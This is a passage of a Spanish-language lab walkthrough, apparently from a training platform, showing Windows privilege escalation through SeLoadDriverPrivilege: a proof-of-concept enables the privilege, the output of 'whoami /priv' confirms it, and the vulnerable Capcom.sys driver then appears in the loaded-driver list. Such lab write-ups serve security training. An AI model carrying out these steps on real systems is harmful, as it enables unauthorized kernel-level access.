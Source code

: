 Comandos del texto:

```
.\DriverView.exe /stext drivers.txt
cat drivers.txt | Select-String -pattern Capcom
```

**Explicación**:

* `DriverView.exe /stext drivers.txt`: exporta la lista de drivers a `drivers.txt` en formato texto.
* `Select-String -pattern Capcom`: en PowerShell, filtra `drivers.txt` buscando la cadena `Capcom`.
* Resultado esperado: ninguna coincidencia (driver no cargado aún).

---

## 7) Ejecutar la PoC para habilitar el privilegio

Comando:

```
EnableSeLoadDriverPrivilege.exe
```

Salida de ejemplo:

```
whoami:
INLANEFREIGHT0\printsvc

whoami /priv
SeMachineAccountPrivilege        Disabled
SeLoadDriverPrivilege            Enabled
SeShutdownPrivilege              Disabled
SeChangeNotifyPrivilege          Enabled by default
SeIncreaseWorkingSetPrivilege    Disabled
NTSTATUS: 00000000, WinError: 0
```

**Interpretación**: tras ejecutar la PoC, `SeLoadDriverPrivilege` aparece como `Enabled` — ahora la cuenta puede invocar `NtLoadDriver` para cargar el driver referenciado en el registro.

---

## 8) Verificar que Capcom aparece ahora listado

Repetir el volcado de drivers y filtrar por `Capcom`:

```
.\DriverView.exe /stext drivers.txt
cat drivers.txt | Select-String -pattern Capcom
```

Salida esperada:

```
Driver Name           : Capcom.sys
Filename              : C:\Tools\Capcom.sys
```
